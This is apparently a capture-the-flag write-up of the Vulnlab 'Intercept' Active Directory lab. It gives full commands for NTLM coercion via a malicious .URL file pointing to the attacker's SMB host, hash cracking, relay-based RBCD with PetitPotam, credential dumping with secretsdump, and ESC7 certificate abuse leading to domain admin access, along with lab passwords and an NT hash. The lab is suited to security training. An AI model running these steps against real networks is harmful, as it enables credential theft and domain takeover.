 ```yaml
---
title: Vulnlab Chain - Intercept
date: 2024-02-19
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Chain - Intercept
Intercept is a hard rated chain which contains two machines WS01 and DC01. The chain starts with forced authentication using a file upload to grab a users hash. Using this user we performed the Resourced Based Contrained Delegation (RBCD) WebClient attack to escalate privileges. Finally using ESC7 we elevate privileges to Domain Admin.

![_install](/assets/img/VL-Intercept/intercept_slide.png)

## Initial Access
Starting off I added the following to the /etc/hosts file:
```bash
10.10.185.69 intercept.vl
10.10.185.69 DC01.intercept.vl
10.10.185.70 WS01.intercept.vl
```

I started off with some nmap scans and quickly noticed that it was possible to access the dev share using a null session.
![_install](/assets/img/VL-Intercept/null_session_dev.png)

Using this null session I entered the "dev" share and looked through the directories for interesting information.

![_install](/assets/img/VL-Intercept/null_session_dev_2.png)

Something that stood out to me is that there is a "readme.txt" file which says that the share is checked regulary for updates. This for me immediately triggered "coerced authentication". We can craft a malicious .URL file that triggers an authentication request to our SMB listener when someone accesses the share. We can then attempt to relay or crack the authentication request. I crafted the following .URL payload:

```bash
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.0.49\%USERNAME%.icon
IconIndex=1
```
And uploaded it to the share using an smbclient session:

![_install](/assets/img/VL-Intercept/file_upload.png)

Next, I set up Responder with an SMB listener to capture the NTLMv2 hash of the Kathryn.Spencer Domain User:

![_install](/assets/img/VL-Intercept/responder.png)

Sadly I can't relay the connection to the Domain Controller because SMB Signing is enabled. However I always make sure to check this using netexec:

![_install](/assets/img/VL-Intercept/signing_enabled.png)

Despite SMB Signing being enabled by default on the Domain Controller, which prevents direct connection relaying, I decided to attempt cracking the hash with hashcat:

```bash
hashcat -a 0 -m 5600 hash.txt /opt/rockyou.txt
```
This succesfully recovered the password which ended up being "Choclate1". 
![_install](/assets/img/VL-Intercept/cracked_hash.png)

## Domain Enumeration
Now that we have a valid Domain account we can enumerate the domain using bloodhound. Let's run the python remote ingestor to collect some data:

```bash
bloodhound.py -d intercept.vl -v --zip -c All -dc DC01.intercept.vl -ns 10.10.185.69 -u 'Kathryn.spencer' -p 'Chocolate1' --dns-timeout 10
```
![_install](/assets/img/VL-Intercept/bloodhound.png)

The user Kathryn.Spencer doesn't have any interesting outbound permissions.

![_install](/assets/img/VL-Intercept/bloodhound_enum.png)

I enumerated the Domain more and figured out that the MachineAccountQuota has the default setting of "10".
![_install](/assets/img/VL-Intercept/maq.png)

And also figured out that the Domain Controller doesn't have LDAP Signing enforced:

![_install](/assets/img/VL-Intercept/ldap_signing.png)

If the WebDAV service is also enabled we can perform an RBCD WebClient attack using coerced authentication such as PetitPotam. Lets check if the WebDAV service is active using netexec:
![_install](/assets/img/VL-Intercept/webdav_client.png)

## RBCD to Local Administrator
Now that we know that the WebDAV service is active on WS01, LDAP Signing is disabled on the DC, and we can add machine accounts to the domain, we can abuse these conditions in combination with coerced authentication to escalate privileges. However, when relaying our coercion and add RBCD permissions to WS01 the authenticated connection has to originate from a trusted intranet zone. Luckly for us by default the "Authenticated Users" group can create child objects on the ADIDNS zone. Lets start off the attack by create a new A-record which points to our machine using dnstool.py:
```bash
dnstool.py -u 'intercept\kathryn.spencer' -p 'Chocolate1' -a add -r kali -d 10.8.0.49 10.10.185.69
```
![_install](/assets/img/VL-Intercept/dnstool.png)
Next is starting ntlmrelayx for relaying the coerced authentication:
```bash
ntlmrelayx.py -t ldaps://10.10.185.69 --delegate-access --http-port 8080 -smb2support
```
![_install](/assets/img/VL-Intercept/ntlmrelayx.png)
Finishing off we coerce authenticated using PetitPotam to our created DNS record which is in trusted intranet zone which gets relayed to the Domain Controller to allow impersonation on WS01$ via S4U2Proxy. We can trigger the coercion using PetitPotam like so:
```bash
petitpotam.py -d "intercept.vl" -u "kathryn.spencer" -p "Chocolate1" kali@8080/a 10.10.185.70
```
![_install](/assets/img/VL-Intercept/petitpotam.png)

And if we now take a look at ntlmrelayx we see that a new computer has been created which allows us the impersonate users via S4U2Proxy:
![_install](/assets/img/VL-Intercept/relay_ok.png)

Next we request a TGT for the CIFS service as the Administrator on the WS01 computer using getST.py:
```bash
getST.py -spn cifs/WS01.intercept.vl -dc-ip 10.10.185.69 -impersonate administrator intercept.vl/PMZKVLGA$:'.Wpkn,gC7Xpd}9S'
```
![_install](/assets/img/VL-Intercept/TGT.png)

Now we export the TGT in memory and run secretsdump.py to obtains logon information.
```bash
export KRB5CCNAME=administrator@cifs_WS01.intercept.vl@INTERCEPT.VL.ccache 
secretsdump.py administrator@WS01.intercept.vl -k -no-pass
```
![_install](/assets/img/VL-Intercept/secretsdump1.png)
This reveals the password of the user Simon_Bowen. Lets check bloodhound if this user have any interesting permissions which we can abuse. Lookup at the output we can see that the user is member of the helpdesk groups which has GenericAll permissons on the ca-managers group. 

![_install](/assets/img/VL-Intercept/perms1.png)

Now lets run certipy to find if this group have any intersting permissions:
```bash
certipy find -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69
```
Looking at the output we see that the ca-managers group has ManageCa permission on the Certificate Authority which makes it vulnerable to ESC7
![_install](/assets/img/VL-Intercept/esc7.png)

## AD CS Misconfiguration (ESC7)
To be able to abuse ESC7 we first need to add Simon.Bowen to the ca-managers group. This is possible because the group that he is part of (helpdesk) has GenericAll permissions on the group. We can add Simon to the group using net rpc:
```bash
net rpc group addmem 'ca-managers' 'Simon.Bowen' -U intercept.vl/Simon.Bowen -S DC01.intercept.vl 
```
To verify the user has been succesfully added to the group I re-ran bloodhound a confirmed Simon.Bowen is now part of the ca-managers group:
![_install](/assets/img/VL-Intercept/perms2.png)

Now that we have suffient permissions we can perform the ESC7 attack on the AD CS. First I added myself the Managed Certificated accces right by adding myself as a new officer:
```bash
 certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.183.85 -ca intercept-DC01-CA -add-officer simon.bowen
```
![_install](/assets/img/VL-Intercept/esc7-p1.png)
Now we check if the SubCA template can be enabled on the CA using the -enable-template parameter. By default the SubCA template is enabled.
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -list-template
```
![_install](/assets/img/VL-Intercept/esc7-p2.png)
Now that we have all the prerequisites for this attack we can start by request a certificate based on the SubCA template. This request will be benied but we will save the private key and note down the request ID:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -template 'SubCA' -upn administrator@intercept.vl -target intercept.vl
```
![_install](/assets/img/VL-Intercept/esc7-p3.png)

Having the manage certificate rights we can validate the failed request since we have the key:
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -issue-request 5
```
![_install](/assets/img/VL-Intercept/esc7-p4.png)
Now that we certificate is issued we can retrieve the administrator's certificate:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -target intercept.vl -retrieve 5
```
![_install](/assets/img/VL-Intercept/esc7-p5.png)

Now that we have a certificate of the administrator we can use it to authenticate and retrieve the NT hash:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.185.69 -domain intercept.vl -username administrator
```
![_install](/assets/img/VL-Intercept/esc7-p6.png)

We can use this hash to gain access the the DC using netexec:
```
nxc smb DC01.intercept.vl -u Administrator -H ad95c338a6cc5729ae7390acbe0ca91f -x whoami
```
![_install](/assets/img/VL-Intercept/da_access.png)











